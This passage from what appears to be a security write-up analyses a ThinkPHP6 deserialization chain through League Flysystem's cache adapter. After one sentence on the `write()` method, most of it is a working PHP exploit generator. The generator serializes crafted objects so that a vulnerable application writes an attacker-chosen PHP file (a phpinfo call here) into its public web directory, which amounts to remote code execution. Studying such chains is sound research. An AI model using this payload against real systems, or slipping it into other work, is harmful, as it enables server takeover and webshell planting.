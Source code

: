 > Let's take a look at the `write()` method. The value of `$location` comes from the file name processed by `$this->file`. The value of `$contents` is json data with file contents after `json_encode`.

<img src="./images/tp6-pop-3-6.png" alt="">

### exp
```php
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["H3rmesk1t" => "<?php phpinfo();?>"];
    }
}

namespace League\Flysystem\Cached\Storage {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class Adapter extends AbstractCache {
        protected $file;
        protected $adapter;
        public function __construct($adapter = "") {
            $this->file = "C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/pop3.php";
            $this->adapter = $adapter;
        }
    }
}

namespace League\Flysystem\Adapter {
    class Local {
        protected $writeFlags = 0;
    }
}

namespace {
    $local = new League\Flysystem\Adapter\Local();
    $cache = new League\Flysystem\Cached\Storage\Adapter($local);
    echo base64_encode(serialize($cache));
}
?>
```